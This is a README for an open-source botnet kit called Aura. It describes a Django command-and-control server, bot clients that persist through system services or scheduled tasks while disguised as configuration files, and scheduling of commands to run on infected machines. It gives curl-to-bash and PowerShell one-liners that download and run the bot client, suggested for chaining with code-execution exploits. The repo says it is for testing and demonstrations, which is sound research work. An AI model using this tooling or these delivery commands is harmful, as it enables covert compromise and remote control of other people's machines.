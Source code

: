# Aura Botnet

C2 Server
---
The botnet's C2 server utilizes the Django framework as the backend.
It is far from the most efficient web server, but this is offset by the
following:
* Django is extremely portable and therefore good for testing/educational
purposes. The server and database are contained within the [`aura-server`](aura-server)
folder.
* Django includes a very intuitive and powerful admin site that can be used
for managing bots and commands
* The server is only handling simple POST requests and returning text
* Static files should be handled by a separate web server (local or remote) that
excels in serving static files, such as nginx

The admin site located at `http://your_server:server_port/admin` can be
accessed after setting up a superuser (see below).

Database
---
The C2 server is currently configured to use a SQLite3 database,
`bots.sqlite3`. The current configuration can be changed in [`aura-server/aura/settings.py`](aura-server/aura/settings.py).
You may wish to use MySQL, or even PostgreSQL instead; this easy to do thanks
to Django's portable database API.

Bot Clients
---
The primary client is written in C++, and can be compiled for either Linux or
Windows using CMake. Alternate clients are written in Rust, Bash, and Powershell.

The client will gather relevant system information and send it to the C2 server
to register the new bot. Identification is done by initially creating a file
containing random data -- referred to as the *seed* throughout the code -- which
will then be hashed each time the client runs to identify the client and
authenticate with the C2 server. It will then install all the files in the
folder specified in the code, and initialize the system service or schedule a
task with the same privileges that the client was run with. The default settings
have the client and other files masquerading as configuration files.

Getting Started: C2 Server
---
### Docker
The Docker image can be found [here](https://hub.docker.com/r/watersalesman/aura-c2/).
Follow the instructions below to run the server normally.

### From Git
To initialize the SQLite3 database, simply change into the [`aura-server`](aura-server)
directory and run:
```
./manage.py migrate
```
After the database is initialized, create a superuser for the admin site by
running
```
./manage.py createsuperuser
```
More information on configuring database
and the admin site can be found in the following
[tutorial](https://docs.djangoproject.com/en/1.11/intro/tutorial02/)
and [documentation](https://docs.djangoproject.com/en/1.11/ref/databases/).

Finally, run the following to start the server:
```
./runserver.sh
```
[`runserver.sh`](aura-server/runserver.sh) is just a wrapper around `manage.py runserver` with some default
options that runs the server on port 41450. This can be easily edited or
bypassed altogether.

Geting Started: Bot Clients
---
The client executable or script need to be run in the same folder as
any necessary components (systemd services for Linux clients and launcher.vbs
for Powershell) on the target machine, or installed via web delivery (see
below).

You can choose whichever client you feel is most appropriate for the platform
and use case.

### C++ Client
For the Linux C++ client, change into the source directory ([`aura-client`](aura-client)).
If the repo was not cloned with the `--recursive` flag, pull the needed
dependencies by running:
```
git submodule update --init --recursive
```

Then build by running:
```
cmake .
make
```

For building the Windows C++ client, you can find various methods of using
CMake on Windows
[here](http://preshing.com/20170511/how-to-build-a-cmake-based-project/).

Catch2 unit tests can be found under [`aura-client/tests/`](aura-client/tests/)

### Rust Client
For the Rust client, you will need Rust installed on the platform that you wish
to compile for. Unfortunately, there is no simple method of cross-compiling that
I am aware of. Go into the source directory ([`alt-clients/rust/rust-linux`](alt-clients/rust/rust-linux) or
[`alt-clients/rust/rust-windows`](alt-clients/rust/rust-windows) and run:
```
cargo build --release
```
The binary will be sent to `client/rust-*/target/release/`.

### Powershell and Bash
The Powershell and Bash clients simply need to be executed on the target
machine.

Configuring Commands
---
These can easily be managed through the Django shell or admin site. The
client periodically communicate with the specified server using POST
requests to receive a command (default is every 5 minutes). Commands can be set
to run for specific bot groups defined by operating system and user privilege.
This is specified in [`aura-server/groups.json`](aura-server/groups.json). The only reserved group
numbers are `-1`, for priority commands that are run by all bots, and `-2`, for
default commands that are run by all bots only if there is no other command to run;
you can also assign commands to individual bots using the hash of their seed.
Each command can be given a start time and end time. Oneshot commands will only
run once on each bot.

Client Web Delivery
---
The *static* folder can be used to store files to be served by a web server --
preferably an nginx server running on a different port or host as your Django
server. You will need to compile and place the files into the folders, and edit
the index files to reflect any changes like the server name. The simplicity of
executing via web delivery makes it easy to integrate with exploits that run
arbitrary code. An example in bash would be:

```
curl http://static-server-name/welcome/linux/rust | bash
```
In Powershell:
```
Invoke-RestMethod http://static-server-name/welcome/windows/rust | powershell
```

This will run the client with the current privileges, install any necessary
files, and cleanup the downloaded files.

Other Notes
---
Because this is for testing purposes, the C2 server needs to be
hard-coded into client and web delivery files. It is currently set to
*localhost* on all the files. This is because an actual botnet would use something
like a domain generation algorithm (DGA) to sync a stream of changing domains on
the client side with a stream of disposable domains being registered -- or just
really bulletproof hosting like the original Mirai botnet.

The code is also not obfuscated nor is there any effort put toward preventing
reverse engineering; this would defeat the purpose of being a botnet for
testing and demonstrations.

The *killswitch* folder contains scripts for easy client removal when testing
on your devices.

TODO
---
* Add support for communication via JSON
* Use JSON support to send file dependencies for commands
* Support various shells to execute command in
* Add significantly more unit tests

<h2>This repo is for testing purposes only. This is not meant to be
implemented in any real world applications except for demonstrations.</h2>
